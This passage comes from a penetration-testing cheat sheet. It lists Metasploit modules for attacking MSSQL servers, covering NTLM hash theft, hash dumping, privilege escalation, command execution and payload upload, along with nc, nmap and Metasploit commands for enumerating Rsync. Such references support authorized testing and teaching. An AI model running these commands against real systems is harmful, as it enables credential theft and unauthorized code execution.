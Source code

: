 Metasploit (necesita credenciales)

```bash
#Set USERNAME, RHOSTS and PASSWORD
#Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used

#Steal NTLM
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer #Steal NTLM hash, before executing run Responder

#Info gathering
msf> use admin/mssql/mssql_enum #Security checks
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump
msf >use auxiliary/scanner/mssql/mssql_login

#Search for insteresting data
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf

#Privesc
msf> use exploit/windows/mssql/mssql_linkcrawler
msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate
msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin

#Code execution
msf> use admin/mssql/mssql_exec #Execute commands
msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload

#Add new admin user from meterpreter session
msf> use windows/manage/mssql_local_auth_bypass
```

#### Port 873 | Rsync

Banner grabbing

```bash
nc -nv <IP> 873
```

Enumeration nmap

```bash
nmap -sV --script "rsync-list-modules" -p 873 target_host
```

Enumeration metasploit

```bash
msf> use auxiliary/scanner/rsync/modules_list
```
